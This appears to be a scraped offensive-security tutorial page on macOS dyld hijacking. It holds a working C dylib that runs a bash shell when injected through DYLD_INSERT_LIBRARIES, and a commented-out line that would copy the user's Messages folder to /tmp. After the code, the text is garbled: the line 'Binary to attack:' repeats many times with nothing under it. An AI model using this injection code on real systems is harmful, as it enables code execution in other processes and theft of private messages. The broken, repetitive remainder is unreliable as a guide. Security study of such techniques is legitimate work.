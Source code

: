 # macOS Dyld Hijacking & DYLD\_INSERT\_LIBRARIES

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## DYLD\_INSERT\_LIBRARIES Basic example

**Library to inject** to execute a shell:
```c
// gcc -dynamiclib -o inject.dylib inject.c

#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor))

void myconstructor(int argc, const char **argv)
{
syslog(LOG_ERR, "[+] dylib injected in %s\n", argv[0]);
printf("[+] dylib injected in %s\n", argv[0]);
execv("/bin/bash", 0);
//system("cp -r ~/Library/Messages/ /tmp/Messages/");
}
```
Binary to attack: 

Binary to attack: 

Binary to attack: 

Binary to attack: 

Binary to attack: 

Binary to attack: 

Binary to attack: 

Binary to attack: 

Binary to attack: 

Binary to attack: 

Binary to attack: 

Binary to attack: 

Binary to attack: 

Binary to attack: 

Binary to attack: 

Binary to attack: 

